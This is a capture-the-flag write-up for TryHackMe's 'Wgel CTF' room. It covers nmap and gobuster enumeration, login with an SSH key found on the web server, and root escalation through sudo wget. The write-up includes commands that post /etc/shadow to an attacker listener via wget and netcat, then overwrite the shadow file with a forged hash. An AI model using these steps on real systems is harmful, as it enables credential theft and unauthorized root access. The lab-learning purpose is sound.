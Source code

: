 ```yaml
---
title: "TryHackMe - Wgel CTF"
author: Nasrallah
description: ""
date: 2022-04-29 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, sudo, wget]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Wgel CTF](https://tryhackme.com/room/wgelctf) from [TryHackMe](https://tryhackme.com). We start by enumerating the machine with nmap, we find ssh on port 22 and a webserver on port 80. We run a directory scan and find private key, we use the latter with a username we found in the webpage source code to login with ssh. After getting access to the machine we find that we can run `wget` as root, we leverage that to get root access by replacing the shadow file with one we modified. Let's get started.

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.165.173
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We got 2 open ports. Let's check the webserver on port 80.

## Web

Navigating to the webpage we get this.

![](/assets/img/tryhackme/wgel/1.png)

It's the default page for apache, let's view the source code.

![](/assets/img/tryhackme/wgel/2.png)

We found a possible username.

## Gobuster

Let's run a directory scan with `gobuster`.

![](/assets/img/tryhackme/wgel/3.png)

We found a directory named **sitemap**, let's go see what' there.

![](/assets/img/tryhackme/wgel/4.png)

It's a UNAPP template page, nothing really useful, let's run another directory scan on sitemap.

![](/assets/img/tryhackme/wgel/6.png)

Wow, we found **.ssh** directory, let's go take a look and hope there is a private key waiting for us there.

![](/assets/img/tryhackme/wgel/5.png)

Great! We got an ssh private key.


# **Foothold**

Let's copy that key to a file in our machine and give it the right permission, then let's use it with the username we found earlier to login with ssh.

![](/assets/img/tryhackme/wgel/7.png)

Nice, we got access to the box. Let's escalate our privileges now.


# **Privilege Escalation**

First, let's check our current privileges with the command `sudo -l`.

![](/assets/img/tryhackme/wgel/8.png)

We see that we can run every command as root, but we need a password for that, on the other hand, we can run `wget` with no password.

I searched on Google for a way to escalate privileges with `wget` and found this [article](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/) explaining how to do so.

What we can do is read the /etc/shadow file, get a hash, and try to crack that hash. First let's setup a listener on our machine with the command `nc -lvnp 80` 

![](/assets/img/tryhackme/wgel/9.png)

Now on the compromised machine, run `sudo wget --post-file=/etc/shadow {attacker_ip}`

![](/assets/img/tryhackme/wgel/10.png)

Now going back to our listener, we should have received the content of **shadow** file.

![](/assets/img/tryhackme/wgel11.png)

Great! We have the shadow file, I've tried to crack the hash but got nothing.

One other thing we can try is to modify the shadow file by putting our own crafted hash and upload it the the compromised machine.

First, let's generate a new password hash using the command `openssl passwd -6 pass123`.

![](/assets/img/tryhackme/wgel12.png)

The password i used is **pass123**, you can choose whatever you want.

Let's replace jessie's hash with the one we just created.

![](/assets/img/tryhackme/wgel13.png)

Great! Now let's upload the file to the machine using the command `sudo wget http://10.11.31.131/shadow --output-document=shadow`
> Note: You have to change the directory to **/etc** before uploading the file.

![](/assets/img/tryhackme/wgel14.png)

Now that we replaced the shadow file, let's change our user to root. We know that jessie can execute any command as root using a password, let's run the command `sudo su` and submit the password we specified while creating the hash, in my case it's `pass123`.

![](/assets/img/tryhackme/wgel15.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/